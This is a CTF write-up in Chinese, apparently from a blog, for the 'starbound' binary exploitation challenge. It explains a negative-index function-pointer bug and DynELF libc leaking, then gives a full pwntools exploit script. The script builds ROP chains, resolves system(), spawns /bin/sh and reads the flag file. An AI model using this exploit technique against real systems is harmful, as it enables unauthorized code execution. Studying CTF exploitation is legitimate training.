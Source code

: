 # starbound 
一开始一直报错运行不了...找了半天[解决办法][3]
做题20分钟环境2小时
题目虽然长但是还是很友好的这种类型一般都是函数指针会出问题
果不其然可以填负数的序号，于是乎我们可以call got 或者我们自己set_name时留下的地址


主要比较麻烦的地方是没有给libc我们需要用DynELF

我们需要破坏esp找add esp xx的gadget填到name 里面然后就可以做DynELF了 

主要问题是60s的alarm...开始代码写的太烂每次超时 后来改进了一下不需要每次setname就30秒内get _flag
<比较简略...前几天写的忘记了>
```python
from pwn import *
n=0x80580D0
nop=0x8058154
write=0x8048A30
harmer=0x08048e48
repeater=0x804A605
context.arch='i386'
write=0x8048A30
read=0x8048A70
pppr=0x080494da
def cal(aim):
	if aim>nop:
		return (aim-0x8058154)/4
	else:
		return (aim-nop)/4
def cmd(c=cal(n)):
	p.sendafter("> ",str(c))#+"\xff")
def c(n=cal(n)):
	p.sendafter("> ",str(n)+"\x00")

def name(addr):
	c(6)
	c(2)
	p.sendlineafter("name: ",p32(addr))
	c(1)
def leak(addr):
	p.sendafter("> ",("-1109\x00\x00\x00"+p32(write)+p32(pppr)+p32(1)+p32(addr)+p32(0x180)+p32(repeater)).ljust(0x100,'\x00'))
	addr=p.read(0x180)
	return addr

bss=0x08058000-0x1000
binary=ELF('./starbound')
p=process("./starbound")
#p=remote("139.162.123.119",10202)
name(harmer)
p.sendafter("> ",("-33\x00"+p32(0xdeadbeef)+p32(read)+p32(pppr)+p32(0)+p32(bss)+p32(12)+p32(repeater)).ljust(0x100,'\x00'))
p.send(p32(harmer)+"/bin/sh\x00")
d=DynELF(leak,0x804A605,elf=binary)
#gdb.attach(p,'b  system')
system=d.lookup("system","libc")
log.warning(hex(system))
p.sendafter("> ","-1109\x00\x00\x00"+p32(system)+p32(0xcafebabe)+p32(bss+4))
p.sendline("cat /home/starbound/flag")
p.interactive()

```
# critical_heap

[1]: https://code.woboq.org/qt5/include/linux/prctl.h.html
[2]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[3]: https://blog.csdn.net/qq_19683651/article/details/61418292
[4]: https://n132.github.io/2018/11/15/2018-11-15-Hitcone-baby-tcache/
[5]: https://n132.github.io/2019/02/11/Kidding/
[6]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[7]: https://n132.github.io/2018/11/27/2018-11-27-GETS-THE-SHELL/
[8]: https://n132.github.io/2019/02/23/mno2/
[9]: https://code.woboq.org/userspace/glibc/time/tzset.c.html#__tz_convert